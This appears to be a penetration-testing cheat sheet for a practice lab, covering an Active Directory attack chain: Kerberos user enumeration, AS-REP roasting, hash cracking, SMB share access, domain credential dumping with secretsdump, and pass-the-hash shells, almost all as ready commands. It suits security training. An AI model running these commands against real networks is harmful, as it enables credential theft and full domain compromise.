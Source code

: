 # KERBEROS / ACTIVE DIRECTORY

`Kerberos is the authentication service in a AD  
Note that Kerberos runs on port 88`  

## Tools :
- Impacket Suit
- BloodHound
- neo4j
- Enum4linux
- [Kerbrute](https://github.com/ropnop/kerbrute) (Really important here)  
- smbclient

ASREP-Roasting : ASREP-Roasting occurs when a user account has the privilege "Does not require Pre-Authentication" set.

# Methodology
1. Enumerate
2. Look for valid users (userenum tag from kerbrute)
3. Get a ticket from a user to log as him  
	- Usually require valid credentials to KerbeRoast
	- If the privilege "Does not require Pre-auth" is set, then, we can use ASREP-Roasting  



## Enum open ports with nmap -A
Set DNS_Domain_Name (found with nmap -A) in /etc/hosts  

## Enum NetBios 
```bash
use enum4linux
```

## Enum for users via Kerberos
```bash
kerbrute userenum -d spookysec.local --dc IP userlist.txt
```

|Tag | Meaning |
|:-------------|--------------------|
|spookysec.local | the DNS_Domain_Name (found with nmap -A)|
|userlist.txt | a list of usernames|

`Note that service users usually have more permissions than normal user account.  
So, this may be interesting. They often have an identifier such as "svc-" which stands for "service"`

## ASREP-Roasting w/ Impacket
ASREP-Roasting occurs when a user account has the privilege "Does not require Pre-Authentication" set.  
This basically consists of retrieving a Kerberos ticket wich can be cracked like a hash  

`This can be tested one by one like : `  
```bash
python3 /opt/impacket/examples/GetNPUsers.py -dc-ip 10.10.68.12 spookysec.local/svc-admin -no-pass
```
|Tag | Meaning |
|:-------------|--------------------|
|svc-admin | a valid username found previously|
|spookysec.local | the DNS_Domain_Name (found with nmap -A)|
|-no-pass | Meaning that we are Asrep-Roasting|

`But it cans also bruteforce with a userlist`  

```bash
python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/ -userfile userlist.txt
```
## Crack the hash
Found type : Kerberos 5 AS-REP etype 23  
Documentation : [hashcat](./hashcat.md)
```bash
hashcat -a 0 -m 18200 hash /usr/share/wordlists/rockyou.txt
```

## Enum for shares
***Available Tools :*** :
- smbclient
- smbmap
- mount
- smbget
- crackmapexec
```bash
smbclient -L 10.10.72.208 --user svc-admin
```

Or, we can uses smbmap, that looks at permissions too
```bash
smbmap -H spookysec.local -u svc-admin -p password
```
Then, type the password we found earlier  

Or, we can use crackmapexec :  
`Note that sometimes, running with "guest" as user may retrieve stuff`
```bash
crackmapexec smb spookysec.local -u 'svc-admin' -p 'password' --shares
```

## Log into a share w/ smbclient
```bash
smbclient \\\\spookysec.local\\backup --user svc-admin
```
Then, type the password we found earlier  

Or : 
```bash
smbclient \\\\spookysec.local\\backup -Usvc-admin%password
```
`Note that there is no space between -U and svc-admin`


|Tag | Meaning |
|:-------------|--------------------|
|svc-admin | a valid user who nicely gave us his password|




## Enum for additionnal information w/ secretdump.py
``(Admitting that we have a password for the user `backup`)``
Now, we need to retrieve all of the password hashes that this user account has to offer, because we know that it's synced with the Domain Controller and that's why he saved all of them...  
```bash
secretsdump.py -just-dc backup@spookysec.local
```	


## Log in with PsExec by "Passing the hash"
`Note that this is not a vulnerability, this is how kerberos works`
```bash
psexec.py -hashes PUT_THE:HASH_HERE administrator@spookysec.local
get cmd
```

## Log in with Evil-Winrm by "Passing the hash"
/!\ This only needs the second part (NTLM) of the hash  

```bash
evil-winrm -u administrator -H PUT_THE_NT_HASH_HERE -i spookysec.local
get powershell
```

